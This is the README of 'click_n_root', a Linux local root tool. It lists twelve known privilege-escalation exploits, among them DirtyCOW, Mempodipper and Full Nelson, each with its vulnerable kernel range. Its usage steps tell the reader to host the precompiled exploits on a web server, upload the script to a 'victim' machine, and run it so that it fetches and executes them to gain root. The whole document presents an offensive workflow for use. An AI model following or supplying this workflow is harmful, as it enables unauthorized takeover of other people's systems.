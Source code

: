 # click_n_root - Linux Local Root Exploiter  
This is a small script to make the local exploitation process easier. It downloads the precompiled exploit for x86 and x64 architectures and can also automatic compile local on the victim system

## Exploit-List:

1.  DirtyCOW AddUser 		(Ubuntu <4.4/<3.13; Debian <4.7.8)
2.  DirtyCOW Pokeball 		(Linux Kernel 2.6.22 < 3.9)
3.  Mempodipper 		(Linux 2.6.39<3.2.2 Gentoo/Debian)
4.  Full Nelson 		(Linux 2.6.31<2.6.37 RedHat/Debiab)
5.  Half Nelson 		(Linux Kernel 2.6.0<2.6.36.2)
6.  Clown NewUser		(Linux 3.0<3.3.5)
7.  fasync_helper 		(Linux Kernel <2.6.28)
8.  overlayfs 			(Linux 3.13.0<3.19)
9.  pipe.c root(kit?) 		(Kernel 2.6.x (32 Bit only!))
10. PERF_EVENTS 		(Kernel 2.6.32-3.8.10)
11. CAN BCM Exploit 		(Kernel <2.6.36)
12. Cups local Exploit 	(Cups <1.1.17)

## How to use it:

1. Copy the content of the zip to your web-root (default: /var/www)
2. Now your web-root directory should have this structur: eg. /var/www/click_n_root/
  1. The folders 1, 2,... etc contain several pre-compiled Exploits
3. Upload the click_n_root.sh -Script to the target linux machine
4. Give executable rights to the click_n_root -Script (chmod 755 KlickAndRoot.sh)
5. Execute the script with given Server and Folder and choose an option/exploit
  1. E.g.: ./click_n_root 192.168.0.200/click_n_root

### Feel free to modify the script to your needs.

Cheers!
